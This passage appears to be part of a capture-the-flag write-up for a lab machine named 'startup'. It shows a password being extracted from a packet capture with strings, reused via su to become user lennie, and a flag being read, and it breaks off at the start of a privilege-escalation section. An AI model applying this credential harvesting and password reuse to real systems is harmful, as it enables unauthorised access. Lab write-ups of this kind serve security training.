 ```bash
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
recipe.txt
root
run
sbin
snap
srv
sys
tmp
usr
vagrant
var
vmlinuz
vmlinuz.old
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love. 
$ ls /home
lennie
```
We find a folder called incidents. We see a file called suspicious.pcapng lets download it to our local machine.
```bash
$ strings suspicious.pcapng
[sudo] password for www-data: 
@       c4ntg3t3n0ughsp1c3
6%      @
Sorry, try again.
[sudo] password for www-data: 
^/Sorry, try again.
[sudo] password for www-data: 
c4ntg3t3n0ughsp1c3
```
As password on sudo for www-data is wrong.  Also, lennie is  another user on this machine.
We will see if this password works for lennie.
```bash
www-data@startup:/$ su lennie
Password: c4ntg3t3n0ughsp1c3
lennie@startup:/$ ls  
bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
lennie@startup:/$ cd /home/lennie/
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt 
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```
#### Privilege Escalation
```bash
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ cd scripts
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
lennie@startup:~/scripts$ ls -l
```